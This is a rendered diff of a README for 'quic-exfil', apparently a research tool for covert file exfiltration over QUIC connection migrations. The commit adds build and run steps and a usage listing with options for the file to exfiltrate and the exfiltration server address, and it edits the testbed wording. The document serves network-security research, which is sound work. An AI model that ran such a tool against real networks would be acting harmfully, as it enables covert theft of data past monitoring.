

Before and after one commit to thomasgruebl/quic-exfil, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 98% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -47,6 +47,34 @@ brew install libpcap
 ```
 
 
+## Build
+
+```sh
+cargo build --release
+```
+
+## Run
+
+```sh
+sudo ./target/release/quic-exfil
+```
+
+```sh
+Usage: quic-exfil [OPTIONS]
+
+Options:
+  -i, --interface <INTERFACE>  Network interface name [default: en1]
+  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
+  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
+  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
+  -p, --port <PORT>            Exfiltration server destination port [default: 443]
+  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
+  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
+  -h, --help                   Print help
+  -V, --version                Print version
+
+```
+
 
 
 ## Experimental Testbed
@@ -63,7 +91,7 @@ docker compose up --build
 
 This will build the image and launch 16 instances of the quicexfil container.
 
-You will see console output showing accessible noVNC URLs (e.g. https://172.19.0.8:6901) for each container. These can be opened in your host browser (preferably Firefox) to interact with each container’s desktop environment.
+You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.
 
 You can connect to each container using the noVNC lite clients, for example:
 
@@ -71,11 +99,11 @@ You can connect to each container using the noVNC lite clients, for example:
 https://172.19.0.8:6901
 ```
 
-Log in with the default password <i>headless</i> and open Firefox in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google).
+Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).
 
-Running the benign QUIC Server on the Host VM:
+Running the benign QUIC server on the Host VM:
 
-The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):
+The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):
 
 ```sh
 ./target/release/quiche-server \
````
